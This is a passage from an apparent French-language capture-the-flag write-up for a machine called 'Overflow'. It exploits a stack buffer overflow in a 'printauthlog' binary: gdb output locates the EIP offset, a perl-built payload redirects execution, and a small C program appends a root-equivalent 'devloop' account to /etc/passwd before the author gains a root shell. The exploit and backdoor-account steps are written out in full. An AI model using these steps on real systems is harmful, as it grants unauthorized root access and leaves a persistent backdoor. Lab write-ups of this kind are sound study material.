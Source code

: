 ```
ESP: 0xffffc74c ("raaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaac"...)
EIP: 0x8049218 (<checkPassword+79>:     ret)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8049211 <checkPassword+72>:        add    esp,0x10
   0x8049214 <checkPassword+75>:        mov    ebx,DWORD PTR [ebp-0x4]
   0x8049217 <checkPassword+78>:        leave  
=> 0x8049218 <checkPassword+79>:        ret    
   0x8049219 <main>:    lea    ecx,[esp+0x4]
   0x804921d <main+4>:  and    esp,0xfffffff0
   0x8049220 <main+7>:  push   DWORD PTR [ecx-0x4]
   0x8049223 <main+10>: push   ebp
[------------------------------------stack-------------------------------------]
```

Ici on voit que le début de la stack contient `raaa` qui écrasera `eip` et correspond à l'offset 68 de la chaine que j'ai passé en argument.

Comme Python n'est pas présent sur le système, j'ai eu recours à perl pour passer le buffer en paramètre. Mon programme `zR` qui est appelé va rajouter un utilisateur équivalent à `root` dont le mot de passe est `hello` :

```console
user@Overflow:/home/user$ cat > zR.c << EOF
> #include <unistd.h>
> #include <stdlib.h>
> #include <string.h>
> #include <stdio.h>
> #include <sys/types.h>
> #include <sys/stat.h>
> 
> int main(void) {
>   FILE * fd;
>   fd = fopen("/etc/passwd", "a");
>   fputs("devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh\n", fd);
>   fclose(fd);
> }
> EOF
user@Overflow:/home/user$ gcc -o zR zR.c
user@Overflow:/home/user$ export PATH=.:$PATH
user@Overflow:/home/user$ ./printauthlog `perl -e 'print "A"x68;print "\x60\x90\x04\x08AAAA\x89\xb0\x04\x08"'`
Segmentation fault
user@Overflow:/home/user$ tail /etc/passwd
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
avahi-autoipd:x:105:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
user@Overflow:/home/user$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
```